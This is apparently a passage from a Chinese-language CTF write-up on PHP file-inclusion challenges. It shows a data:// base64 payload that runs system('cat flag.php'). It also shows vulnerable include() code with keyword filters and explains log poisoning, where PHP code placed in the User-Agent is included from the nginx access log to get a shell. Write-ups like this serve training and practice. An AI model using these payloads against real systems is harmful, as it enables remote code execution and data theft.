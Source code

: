 自 PHP 5.2.0 起 data:（[» RFC    2397](http://www.faqs.org/rfcs/rfc2397)）数据流封装器开始有效

受限于 [allow_url_fopen](https://www.php.net/manual/zh/filesystem.configuration.php#ini.allow-url-fopen)      No

受限于 [allow_url_include](https://www.php.net/manual/zh/filesystem.configuration.php#ini.allow-url-include)    Yes

[![D9yivt.md.png](https://s3.ax1x.com/2020/11/13/D9yivt.md.png)](https://imgchr.com/i/D9yivt)

payload:

```php
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
# PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');
```

## web80~包含日志文件

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了 `php`、`data`  ，也就是 php 伪协议、data 协议。

可以包含日志文件getshell

```php
?file=/var/log/nginx/access.log
```

抓包在 UA 字段换成想要的代码`<?php system('ls');?>` ,然后包含访问，就 getshell了。

## web81~包含日志文件

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
